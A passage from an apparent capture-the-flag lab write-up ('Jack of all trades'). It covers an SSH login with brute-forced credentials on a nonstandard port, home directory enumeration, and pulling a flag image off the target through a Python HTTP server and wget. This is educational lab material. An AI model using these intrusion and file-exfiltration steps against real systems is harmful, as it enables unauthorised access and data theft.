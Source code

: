 In the request, `ssh://` tells `Hydra` that we are running bruteforce for SSH service and the trailer `:80` tells it to perform the bruteforce on port 80. 

Now, as we have `Jack`'s credentials, we can SSH into his account. Keep in mind to specify port 80 while trying to login via SSH.

```
┌─[✗]─[tester@parrot-virtual]─[~/Downloads/jackofalltrades]
└──╼ $ssh jack@10.10.137.227 -p 80
The authenticity of host '[10.10.137.227]:80 ([10.10.137.227]:80)' can't be established.
ECDSA key fingerprint is SHA256:wABOsY4G6TIcuJ2bmAIpsoBGVR06p/QGP2J7tfiSy2s.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '[10.10.137.227]:80' (ECDSA) to the list of known hosts.
jack@10.10.137.227's password: 
jack@jack-of-all-trades:~$
```

The first that we can do now is go to jack's directory and obtain the user flag.

```
jack@jack-of-all-trades:~$ ls -la
total 312
drwxr-x--- 3 jack jack   4096 Feb 29  2020 .
drwxr-xr-x 3 root root   4096 Feb 29  2020 ..
lrwxrwxrwx 1 root root      9 Feb 29  2020 .bash_history -> /dev/null
-rw-r--r-- 1 jack jack    220 Feb 29  2020 .bash_logout
-rw-r--r-- 1 jack jack   3515 Feb 29  2020 .bashrc
drwx------ 2 jack jack   4096 Feb 29  2020 .gnupg
-rw-r--r-- 1 jack jack    675 Feb 29  2020 .profile
-rwxr-x--- 1 jack jack 293302 Feb 28  2020 user.jpg
```

But it appears that instead of a text file, the flag is stored in an image. So, we need to start a python HTTP server on the target machine and use `wget` on our attacker machine to download the image file.

Target Machine:

```
jack@jack-of-all-trades:~$ python -m  SimpleHTTPServer
Serving HTTP on 0.0.0.0 port 8000 ...
```

Attacker Machine:

```
┌─[tester@parrot-virtual]─[~/Downloads/jackofalltrades]
└──╼ $wget http://10.10.137.227:8000/user.jpg
--2020-09-27 23:14:35--  http://10.10.137.227:8000/user.jpg
Connecting to 10.10.137.227:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 293302 (286K) [image/jpeg]
Saving to: ‘user.jpg’

user.jpg                    100%[=========================================>] 286.43K  67.9KB/s    in 4.2s    

2020-09-27 23:14:39 (67.9 KB/s) - ‘user.jpg’ saved [293302/293302]
```
